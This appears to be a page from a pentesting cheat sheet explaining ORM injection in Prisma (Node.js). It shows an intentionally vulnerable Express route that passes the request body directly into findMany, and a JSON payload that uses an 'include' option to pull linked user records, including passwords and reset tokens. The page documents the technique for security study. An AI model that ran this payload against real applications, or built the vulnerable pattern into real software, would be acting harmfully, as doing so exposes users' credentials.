 ## Prisma ORM (NodeJS)

The following are [**tricks extracted from this post**](https://www.elttam.com/blog/plorming-your-primsa-orm/).

- **Full find contro**l:

<pre class="language-javascript"><code class="lang-javascript">const app = express();

app.use(express.json());

app.post('/articles/verybad', async (req, res) => {
    try {
        // Attacker has full control of all prisma options
<strong>        const posts = await prisma.article.findMany(req.body.filter)
</strong>        res.json(posts);
    } catch (error) {
        res.json([]);
    }
});
</code></pre>

It's possible to see that the whole javascript body is passed to prisma to perform queries.

In the example from the original post, this would check all the posts createdBy someone (each post is created by someone) returning also the user info of that someone (username, password...)

```json
{
    "filter": {
        "include": {
            "createdBy": true
        }
    }
}

// Response
[
    {
        "id": 1,
        "title": "Buy Our Essential Oils",
        "body": "They are very healthy to drink",
        "published": true,
        "createdById": 1,
        "createdBy": {
            "email": "karen@example.com",
            "id": 1,
            "isAdmin": false,
            "name": "karen",
            "password": "super secret passphrase",
            "resetToken": "2eed5e80da4b7491"
        }
    },
    ...
]
```

